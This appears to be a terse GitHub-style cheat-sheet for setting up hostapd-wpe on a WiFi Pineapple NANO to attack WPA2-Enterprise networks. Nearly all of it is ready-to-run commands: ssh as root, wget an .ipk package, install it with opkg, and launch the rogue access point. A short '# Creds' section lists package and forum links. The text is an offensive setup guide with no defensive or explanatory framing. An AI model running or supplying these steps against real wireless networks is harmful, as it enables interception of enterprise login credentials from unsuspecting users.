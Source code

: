 # Hostapd-wpe on the Pineapple NANO for WPA2-Enterprise Attacks
ssh root@IP-OF-PINEAPPLE
cd /tmp<br>
wget https://github.com/metalkey/pineapple-nano-hostapd-wpe/blob/master/hostapd-wpe_2014-06-03.1-1_ar71xx.ipk
opkg install ./hostapd-wpe_2014-06-03.1-1_ar71xx.ipk
cd
hostapd-wpe pineapple-hostapd-wpe.conf

# Creds
https://github.com/TarlogicSecurity/hostapd-wpe-openwrt/raw/master/packages/ar71xx/generic/hostapd-wpe_2014-06-03.1-1_ar71xx.ipk
https://forums.hak5.org/index.php?/topic/38982-hostapd-wpe/
